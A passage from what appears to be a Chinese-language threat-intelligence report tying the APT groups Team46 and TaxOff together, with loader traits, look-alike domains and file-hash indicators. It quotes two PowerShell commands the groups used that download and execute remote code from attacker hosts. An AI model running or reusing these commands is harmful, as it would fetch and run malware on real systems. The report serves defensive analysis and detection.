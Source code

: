   
Team46 在 2024 年 9 月使用的命令：  
  
```
-whid -ep Bypass -nop -c"irm https://srv510786.hstgr.cloud/ordinary.php?id=9826fbb409f65dc6b068b085551bf4f3 | iex"
```  
  
  
TaxOff 在 2025 年 3 月使用的命令：  
  
```
-w minimized -c irm https://ms-appdata-query.global.ssl.fastly.net/query.php?id=[REDACTED] | iex
```  
  
  
  
装载机  
  
总体而言，TaxOff 使用的加载程序与 Team46 使用的Trojan.Siggen27.11306加载程序功能相同 。主要相似之处如下：  
1. 使用线程解密有效载荷。  
  
1. 使用固件 UUID 作为密钥。  
  
1. 使用 ImagePathName 作为键。  
  
1. 使用改进的ChaCha20加密算法。  
  
1. 使用改进的 BLAKE2 哈希算法。  
  
1.  使用甜甜圈装载机。  
  
基础设施  
  
两个犯罪团伙都使用了语法相似的带有连字符的域名，以模仿合法服务。例如：  
  
Team46：ms-appdata-fonts.global.ssl.fastly.net  
  
TaxOff：fast-telemetry-api.global.ssl.fastly.net  
  
结论  
  
我们的研究强烈表明，Team46 和 TaxOff 实际上是同一个 APT 组织，我们将继续将其称为 Team46。该组织利用零日漏洞，使其能够更有效地渗透安全基础设施。该组织还创建并使用复杂的恶意软件，这意味着其制定了长期战略，并打算在受感染的系统上长期驻留。  
  
IoC  
  
基于文件的 IoC  
  
```
TaxOff loadertwinapi.dll 7d3a30dbf4fd3edaf4dde35ccb5cf926 3650c1ac97bd5674e1e3bfa9b26008644edacfed 2e39800df1cafbebfa22b437744d80f1b38111b471fa3eb42f2214a5ac7e1f13winsta.dll 07d2b50cf8ffe13a4722955ea94317aa ff01b509d72662f1d0541d37fd89165d15ad8262 f062681125a93a364618da3126c42b6e7c8f27910e954a7b8afd72455ddce328twinapi.dll f3a70b8073ce2276af75b1cc2f18aced 197b98d7f368bfd5bd7210b5215a720b8dba83a1 b159534cd3bf2fa350edf18969ea4b07cb3cded49c40d927bac19ff390589504WINSTA.dll 4b51f3021d8426b8356cd5751ad6ebd0 643966f0b58b2c1c9d7fead5f9d8b528ea76faaa ab42a3c6ff062147fa7bbf527f7b0b106c1514872bd1a90c8868423fa0485038axOff Trinper— 16f6227f760487a70a3168cf9a497ac3 20943541522cd3937b275c42016ad3e1e64e3f38 f15d8c58d8edb2ec17d35fe9d65062a767067760896eb425fc0de0d4536cc666— 1b7b4608f2c9e0a4863a00edd60c3b78 d9fa06025ecd08fc417c9948148e7827280365f2 d622119cd68ad24f3498c54136242776d69ffe1f6b382a984616a667849c08b2— dba17d2faa311f28e68477ea5cc1a300 39ecc624bd2d52db083424fbb3a47b0c60f5ae4e 99786a04acc05254dd35b511c4b3af34c88251f926c4ef91c215a9fce6ba8f96Team46 loaderAdobeARM.exe ca767542f4af58fc3072e74574725ee3 c1795c171d88cbf36e36fe2d3a3feb435e24c29a fde9725923e15ca4f790c0ad4766fe7d60e6e3dae75ea8ccf04ff42f2458b4b1Auxiliary toolsdirlist.exe 5f47e40f3a36cc06bbaec27b063cd195 8a79060165774fc8d6cf099109a043f07476aa7a 7975d287b07454b68455dd7e052eb741b5bf81712596ea00ddda2b103a99d037ProcessList.exe d69854b4a5c324082e157f04889ba138 5dafc8e4ed184653b8cfb1769617b4e2e27168c3 185cdfd1eeef2a4063e5134653c53058f91050de8c9234740a7ddd215a2aeaedScreenShot.exe d003e812336221db029f02738451215c f12d9b983d5bcc93d99b8199da84e8c4240caaa5 2997647affa42eff41a27c5db54b126087a36f789c8cfc66d24a21fe7212badc
```  
  